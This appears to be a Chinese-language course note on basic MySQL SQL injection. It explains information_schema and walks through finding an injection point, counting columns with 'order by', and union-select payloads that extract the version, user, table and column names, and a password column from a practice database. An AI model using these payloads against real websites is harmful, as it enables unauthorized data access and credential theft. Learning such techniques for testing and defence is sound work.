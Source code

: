 [TOC]



# WEB漏洞--SQL注入之简要SQL注入

![image-20210402231630067](day12.assets/image-20210402231630067.png)



## MySQL注入

### 信息收集

-   操作系统
-   数据库名
-   数据库用户
-   数据库版本
-   网站路径等

### 数据注入

-   低版本：暴力查询或结合读取查询

-   高版本：information_schema有据查询 

-   MySQL5.0以上版本存在自带数据库，information_schema，他是一个存储记录所有数据库名，表名，列名的数据库也相当于可以通过查询他获取指定数据库下面的表名或列名信息。

-   数据库中符号"."表示下一级，比如xiaodi.user表示xiaodi数据库下user的表名

    information_schema.tables：

    information_schema.column：记录所有列名的表

    table_schema：数据库名

    

------

### 数据库结构

```
MySQL数据库
	数据库A == 网站A
		表名(tables)
			列名
				数据
	数据库B == 网站B
	。。。
	数据库B == 网站B
```

```
use databases_name;
show tables;
select * from 表名; 
```



1.  如何判断是否有注入点：

```
老方法：
	and 1=1 返回正常
	and 1=2 返回错误
	可能存在注入点
或
	乱输入后 ，网站有影响，说明拼接的内容进入了数据库查询
还有一种：
	404 跳转，一般没问题
```

2.  猜解列名数量（字段数） order by，猜到错误与正常 的正常值

    `xxx.com/?id=1 order by 4`

3.   报错猜解

    `?id = -1 union select 1,2,3,4`

    假设显示2，3

4.  信息收集

    数据库版本：version()	：ubuntu

    数据库名字：database()	：mozhe_dis

    数据库用户：user()	：root@localhost

    操作系统：@@version_compile_os	：linux

    `?id = -1 union select 1,version(),database(),4`

    `?id = -1 union select 1,user(),@@version_compile_os,4`

    

5.  查询指定数据库名mozhe_dis下的表名信息：

    `?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema = 'mozhe_dis'`
    
    上面只显示一个，如果想显示所有表名：group_concat()
    
    `?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = 'mozhe_dis'`
    
    
    
    假设查到表名：storm_mem
    
6.  查询指定表名storm_mem下的列信息：

     `?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.column where table_name = 'storm_mem'`

    假设查到passwd,id

7.  查询指定数据

    `?id=-1 union select 1,passwd,id,4 from storm_mem`




















